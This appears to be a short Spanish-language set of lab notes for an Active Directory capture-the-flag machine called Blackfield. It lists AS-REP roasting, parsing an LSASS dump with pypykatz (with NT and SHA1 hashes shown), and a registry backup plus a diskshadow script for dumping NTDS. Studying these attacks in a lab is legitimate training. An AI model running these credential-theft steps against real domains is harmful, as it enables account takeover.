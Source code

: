 # methodology

# Metodología

## ASPRepRoast Attack

```
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192
```

## Decrypt LSASS

```
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
    == MSV ==
        Username: svc_backup
        Domain: BLACKFIELD
        LM: NA
        NT: 9658d1d1dcd9250115e2205d9f48400d
        SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
    == MSV ==
        Username: Administrator
        Domain: BLACKFIELD
        LM: NA
        NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
        SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

## Dumpear NTDS

### Backup del System

```
reg save HKLM\SYSTEM system.bak
```

### Backup del NTDS

### Creación de unidad lógica temporal

**Fichero.txt**

```
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
```
